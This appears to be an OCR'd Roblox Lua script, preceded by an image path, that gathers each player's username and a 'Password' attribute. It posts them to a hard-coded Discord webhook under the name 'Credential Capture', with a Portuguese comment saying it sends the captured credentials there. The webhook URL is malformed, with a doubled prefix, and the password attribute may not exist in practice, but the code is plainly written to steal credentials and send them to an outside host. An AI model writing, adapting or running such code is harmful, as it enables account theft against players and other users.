 local webhookUrl = "[https://discord.com/api/webhooks/https://"discord.com/api/webhooks/1432144129579548692/5v0TouZ1sJZGi258AwNIQcVan8oNTfios6tuQqT82LEpMUWs1fpJe8lWo-OfXwo75CDA"

local function sendWebhookMessage(message)
    local httpService = game:GetService("HttpService")
    local data = {
        content = message,
        username = "Credential Capture",
        avatar_url = "https://example.com/avatar.png"
    }
    httpService:PostAsync(webhookUrl, httpService:JSONEncode(data))
end

local function captureCredentials()
    local players = game:GetService("Players")
    for _, player in ipairs(players:GetPlayers()) do
        local username = player.Name
        local password = player:GetAttribute("Password") or "Unknown"

        -- Enviar as credenciais capturadas para a webhook do Discord
        sendWebhookMessage(string.format("Username: %s\nPassword: %s", username, password))
    end
end

captureCredentials()
